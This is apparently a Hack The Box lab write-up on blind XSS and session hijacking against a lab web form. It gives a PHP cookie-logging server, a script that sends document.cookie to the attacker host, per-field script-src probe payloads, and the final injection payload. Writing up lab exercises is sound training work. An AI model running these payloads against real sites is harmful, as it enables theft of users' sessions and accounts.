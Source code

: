 # HTB XSS and Session Hijacking Writeup

This repository documents identifying a vulnerable input field via XSS and performing session hijacking to steal the admin's cookie and retrieve the flag from `login.php`.

- **Attacker IP:** `10.10.14.179`
- **Target IP:** `10.129.31.89`
- **Date:** April 11, 2025

## Steps

### 1. Set Up Attacker Server
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
```
**index.php** 
```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
**script.js**
```bash
new Image().src='http://10.10.14.179/index.php?c='+document.cookie;
```
**cookies.txt**
```bash
sudo touch cookies.txt
sudo chmod 666 cookies.txt
```
**Run server**
```bash
sudo php -S 0.0.0.0:80
```
### 2. Identify Vulnerable Field
**Form**: ` http://10.129.31.89/hijacking/index.php`

**Fields Tested:**

fullname: ` "><script src=http://10.10.14.179/fullname></script> `

username: ` "><script src=http://10.10.14.179/username></script> `

password: ` "><script src=http://10.10.14.179/password></script> `

email: ` "><script src=http://10.10.14.179/email></script> `

imgurl: ` "><script src=http://10.10.14.179/imgurl></script> `

**Process:**

Injected each payload into one field at a time, others set to **test**.

Checked server logs for requests (e.g., GET /fullname).

Vulnerable field identified when a request appeared.

### 3. Exploit with XSS
**Payload**: 

```bash ">
<script src=http://10.10.14.179/script.js></script>
```

Inject this script into the vulnerable field

**Cookie Captured**:
```bash
cat cookies.txt
```

